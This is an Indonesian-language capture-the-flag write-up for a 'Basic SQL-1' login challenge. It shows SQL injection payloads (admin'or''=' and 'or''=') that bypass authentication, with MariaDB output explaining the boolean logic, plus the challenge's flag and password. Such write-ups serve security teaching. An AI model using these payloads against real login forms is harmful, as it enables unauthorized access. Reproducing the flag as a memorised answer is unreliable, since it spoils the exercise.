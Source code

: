 <h1><b>Basic SQL-1</h1></b>
<pre>
Login Form (username & password)
</pre>
</b><h3>Solution</h3></b>
<p>Mencoba login dengan username = <b>admin</b>, password = <b>admin</b> maka akan muncul pesan kesalahan <b>Your username or password is incorrect</b></p>
<p>- Percobaan-1, injection username = <b>'or''='</b> , password = *abaikan* hasil masih menampilkan pesan incorrect</p>
<p>- Percobaan-2, injection username = <b>admin'or''='</b> , password = *abaikan* dan hasil success, Flag didapatkan</p>
<p>Kelemahan terdapat pada MySQL dan tidak terdapat filter dari input string php</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge1 where username = 'admin'or''='';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ********* |
+----------+-----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select 'admin'or''='';
+----------------+
| 'admin'or''='' |
+----------------+
|              1 |
+----------------+
1 row in set, 2 warnings (0.000 sec)
```
<p>Ingat bagaimana boolean beroperasi dengan operator bitwise AND (1 AND 1 = 1), dan cara diatas bernilai True jika username yang kita input bernilai True atau
sesuai dengan database</p>

<p>Dan, Injection lain yang berlaku untuk bypass SQL pada kondisi diatas tanpa bantuan username yang valid, yaitu dengan injection <b>'or''='</b> 
pada form input username dan password</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge1 where username=''or''='' and password=''or''='';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | admin1337 |
+----------+-----------+
1 row in set (0.000 sec)

```
<p>Karena pada injection diatas akan menghasilkan username nilai 1(True) dan password 1(True), seperti contoh dibawah</p>

```mysql

MariaDB [CTF]> select ''or''='';
+-----------+
| ''or''='' |
+-----------+
|         1 |
+-----------+
1 row in set, 2 warnings (0.000 sec)

MariaDB [CTF]> select ''or''='' and ''or''='';
+-------------------------+
| ''or''='' and ''or''='' |
+-------------------------+
|                       1 |
+-------------------------+
1 row in set, 5 warnings (0.000 sec)
```
</b><h3>Flag</h3></b>
<pre>
VenomCTF{M0st_b4sic_SQLi}
</pre>
